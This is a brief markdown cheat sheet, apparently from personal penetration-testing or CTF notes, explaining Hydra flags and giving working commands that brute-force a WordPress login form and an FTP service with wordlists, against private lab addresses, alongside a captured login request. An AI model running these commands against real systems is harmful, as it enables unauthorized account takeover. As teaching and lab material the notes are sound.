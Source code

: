 # Hydra

## Flags
```
-t  Number of parallel connections per target
-vV Sets verbose mode to very verbose, shows the login+pass combination for each attempt

```
## Bruteforce HTTP Form

To bruteforce a Login catch the request with burpsuite and for a hydra command.

Burpsuite Request
```
POST /wp-login.php HTTP/1.1
Host: 10.38.1.111
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Origin: http://10.38.1.111
DNT: 1
Connection: close
Referer: http://10.38.1.111/wp-login.php
Cookie: s_fid=68C1BD34EC9C4864-1C81564B06522EDF; s_nr=1643752744400; s_cc=true; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
Upgrade-Insecure-Requests: 1

log=admin&pwd=123456&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.38.1.111%2Fwp-admin%2F&testcookie=1
```

Command:
```console
root@machine:~$ hydra -vV -L fsocity.dic.uniq -p wedontcare 192.168.2.4 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'

Options:
    -vV     verbose mode
    -L      use wordlist for Username
    -p      use given password
    -http-post-form     request type

Payload:
    '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

`^USER^` & ``^PASS^`` are used as placeholder. 
``"F=Invalid username"`` is the string for the error message.
---
## Bruteforce FTP
```
root@machine:~$ hydra -v -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt -f 10.0.0.3 ftp

Options
    -v verbose mode.
    -C <user:pass file>: colon-separated “login:pass” format.
    -f exit after the first found user/password pair.
```